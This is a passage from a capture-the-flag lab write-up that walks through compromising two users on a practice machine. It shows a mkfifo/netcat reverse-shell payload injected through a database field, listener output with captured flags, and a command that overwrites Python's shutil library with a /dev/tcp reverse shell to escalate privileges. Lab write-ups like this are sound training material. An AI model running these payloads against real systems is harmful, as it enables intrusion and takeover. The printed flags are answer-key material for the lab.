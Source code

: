```bash


mysql> select * from dreams;
+---------+-----------------------------------------------------------+
| dreamer | dream                                                     |
+---------+-----------------------------------------------------------+
| Alice   | Flying in the sky                                         |
| Bob     | Exploring ancient ruins                                   |
| Carol   | Becoming a successful entrepreneur                        |
| Dave    | Becoming a professional musician                          |
| NoBody  | $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 1337 >/tmp/f) |
+---------+-----------------------------------------------------------+
5 rows in set (0.00 sec)

```

We setup a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and try to execute getDreams.py again :

```bash
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 44354
$ whoami
death
$ ls
death_flag.txt
getDreams.py
$ cat death_flag.txt
THM{1M_TH3R3_4_TH3M}
```

We have a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) as death.

## Death to Morpheus

Now we have to modify the `shutil` lib of [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) to get a Morpheus [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :

`echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.162.183/4444 0>&1'\")" > /usr/lib/python3.8/shutil.py`

Wait morpheus to launch restore.py & got the [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```bash
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 47820
bash: cannot set terminal process group (1546): Inappropriate ioctl for device
bash: no job control in this shell
morpheus@ip-10-10-83-170:~$ cat morpheus_flag.txt
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
```

Pwned .
